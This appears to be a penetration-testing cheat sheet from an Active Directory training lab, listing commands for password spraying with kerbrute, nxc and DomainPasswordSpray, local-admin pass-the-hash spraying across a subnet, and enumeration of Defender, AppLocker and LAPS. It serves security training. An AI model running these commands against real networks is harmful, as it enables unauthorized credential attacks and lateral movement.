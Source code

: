 ## Internal Password Spraying - from Linux

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

```shell
sudo nxc smb 172.16.5.5 -u valid_users.txt -p Password123
```

Local Administrator Password Reuse - Local Admin Spraying with CrackMapExec

```shell
sudo nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

## Internal Password Spraying - from Windows

Using DomainPasswordSpray.ps1

https://github.com/dafthack/DomainPasswordSpray

```powershell
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

# Enumerating Security Controls

## Windows Defender
```powershell
PS C:\htb> Get-MpComputerStatus
```

## AppLocker
```powershell
PS C:\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## PowerShell Constrained Language Mode
```powershell
PS C:\htb> $ExecutionContext.SessionState.LanguageMode
```

## LAPS

```powershell
PS C:\htb> Find-LAPSDelegatedGroups
```

```powershell
PS C:\htb> Find-AdmPwdExtendedRights
```
